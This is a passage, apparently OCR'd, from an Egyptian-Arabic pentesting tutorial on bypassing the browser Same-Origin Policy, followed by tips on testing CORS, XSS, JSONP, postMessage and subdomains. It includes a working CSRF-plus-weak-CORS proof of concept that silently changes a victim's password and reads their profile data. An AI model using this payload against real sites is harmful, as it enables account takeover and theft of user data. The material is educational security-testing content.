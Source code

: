#### **سيناريو 7: دمج مع CSRF**
- **الوصف**: تجاوز SOP مع CSRF بيخلّي الهجوم أخطر، لأنك هتقدر تقرأ الرد.
- **الاستغلال**:
  - استخدم CORS ضعيف لقراءة رد طلب CSRF:
    ```html
    <form action="https://example.com/change-password" method="POST" id="csrf-form">
      <input type="hidden" name="new_password" value="attacker123">
    </form>
    <script>
      document.getElementById('csrf-form').submit();
      fetch('https://example.com/api/user-profile', { credentials: 'include' })
        .then(r => r.json())
        .then(data => alert(JSON.stringify(data)));
    </script>
    ```
  - هتغير الباسوورد وتقرأ بيانات المستخدم.

#### **الخلاصة بالعامية**:
فيه طرق كتير تتخطى بيها SOP: زي CORS ضعيف، XSS، أو JSONP. لو لقيت PostMessage مفتوح أو Subdomain فيه ثغرة، استغله. CSRF مع SOP bypass بيخلّي الهجوم قاتل لأنك هتعرف تقرأ الرد. جرب كل حاجة واستخدم Burp عشان تلاقي الفتحة.

---

### **5. نصائح للـ Pentester**
1. **فحّص إعدادات CORS**:
   - ابحث عن `Access-Control-Allow-Origin: *` أو إعدادات ضعيفة.
2. **ابحث عن XSS**:
   - XSS هي أسهل طريقة لتجاوز SOP.
3. **اختبر JSONP وPostMessage**:
   - المواقع القديمة ممكن تكون ضعيفة في النقطتين دول.
4. **ركز على Subdomains**:
   - النطاقات الفرعية غالباً بتكون أضعف من الموقع الرئيسي.
5. **وثّق الثغرة**:
   - اعمل PoC يورّي إزاي سرقت بيانات أو نفذت طلبات، وشرح التأثير (مثل سرقة Cookies أو بيانات المستخدم).

---

### **الخلاصة النهائية بالعامية**:
SOP زي جدار بيحمي بيانات الموقع من العبث. كـ Pentester، دورك تلاقي فتحة في الجدار ده زي CORS ضعيف، XSS، أو PostMessage مفتوح. لو لقيت JSONP أو Subdomain ضعيف، استغله. CSRF مع SOP bypass بيخلّيك مش بس تغير بيانات، لكن كمان تقرأ الردود وتسرق حاجات زي التوكنات. استخدم Burp وZAP، وجرب كل حاجة حساسة. لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قولي!